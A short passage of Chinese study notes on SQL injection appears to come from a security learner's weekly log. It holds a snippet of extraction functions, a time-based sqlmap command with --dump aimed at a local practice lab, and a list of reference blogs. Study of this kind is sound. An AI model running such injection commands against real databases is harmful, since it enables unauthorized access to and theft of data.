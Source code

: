 ```
    getDatabases(url,r)
    getTables(url,r)
    getTables(url,r)
    getData(url,r)                  

```





延时注入：

`[sqlmap -u ](http://192.168.3.6/Less-5/?id=1)http://192.168.3.6/Less-5/?id=1 -p id --technique T --time-sec 5 --v 3 --dump`

![image](004_第四周—数据库系统功能相关学习/Image_023-1567178982004.jpg)





# 参考

1、BingSlient's Blog

https://bingslient.github.io/2019/08/26/MySQL%20%E5%87%BD%E6%95%B0%E5%8F%8A%E5%85%B6%E5%88%A9%E7%94%A8/

2、soya's blog

https://soyawww.github.io/2019/08/28/sql%E5%9F%BA%E7%A1%80%E5%AD%A6%E4%B9%A0%EF%BC%88%E4%B8%89%EF%BC%89/

3、[逸鹏说道](https://www.cnblogs.com/dotnetcrazy/)  [信安周报-第04周：系统函数与UDF](https://www.cnblogs.com/dotnetcrazy/p/11406469.html)

4、信安之路小白学习记录

	第四周：数据库系统功能相关学习-Rj45-1424.pdf